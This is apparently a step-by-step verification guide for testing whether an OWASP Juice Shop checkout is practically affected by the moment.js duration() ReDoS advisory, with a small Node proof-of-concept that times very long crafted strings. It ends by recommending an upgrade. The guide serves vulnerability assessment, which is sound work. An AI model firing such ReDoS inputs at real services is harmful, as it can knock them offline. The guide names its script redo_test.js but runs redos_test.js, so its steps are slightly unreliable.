 
# GHSA‑87vv‑r9j6‑g5qv (moment.js moment.duration() ReDoS)

### Purpose

Minimal, reproducible steps an engineer can run from scratch to determine whether the current OWASP Juice Shop checkout is practically affected by GHSA‑87vv‑r9j6‑g5qv (CVE‑2016‑4055). Do tests in a disposable VM/container.

### Summary

Check vendored moment version and run a small local PoC that measures moment.duration() 



### Step-by-step (copy & paste)

**Clone the repo** :
git clone https://github.com/juice-shop/juice-shop.git && cd juice-shop

**Check vendored moment version** 
node -e "console.log(require('express-jwt/node_modules/moment').version)" 


#### Interpretation: If version < 2.11.2 (e.g. 2.0.0) the dependency is vulnerable in principle.

### Minimal function PoC (required)
**Create and run the simple stress test**:



**Create the directory**

mkdir -p part2_verification/logs

**Create the test script file (redo_test.js) inside the part2_verification**


**copy this content into the js file (redo_test.js)**


const moment = require('express-jwt/node_modules/moment');



function gen(len){ return '-' + '1'.repeat(len); }



function run(len){

  const s = gen(len);

  const start = process.hrtime.bigint();

  try { moment.duration(s); } catch(e) {}

  const end = process.hrtime.bigint();

  console.log(len, (Number(end - start) / 1e6).toFixed(3) + ' ms');

}



[20000, 50000, 100000, 200000, 500000, 1000000, 1500000, 1800000].forEach(run);

**Run the poc**:
node part2_verification/redos_test.js | tee part2_verification/logs/redos_output.txt

### Quick interpretation:

* If times reach seconds for modest sizes (20k–100k) → ReDo reproduced (exploitable).

* If times remain milliseconds even for large sizes (100k–1.8M) → no practical ReDoS observed on this host.


### Conclusion:
*   `moment` is vulnerable in dependency if version < 2.11.2.  
*   Practical exploitability:  **No exploit path demonstrated**.  
*   Recommended action: upgrade `moment` to ≥ 2.11.2 



### Final note (one line)

From the tests you ran (function PoC up to ~1.8M chars and wrapper run with no DETECT logs), the dependency is vulnerable in principle but we did not demonstrate a practical ReDoS exploit path in this Juice Shop checkout — still, upgrade to eliminate the risk.
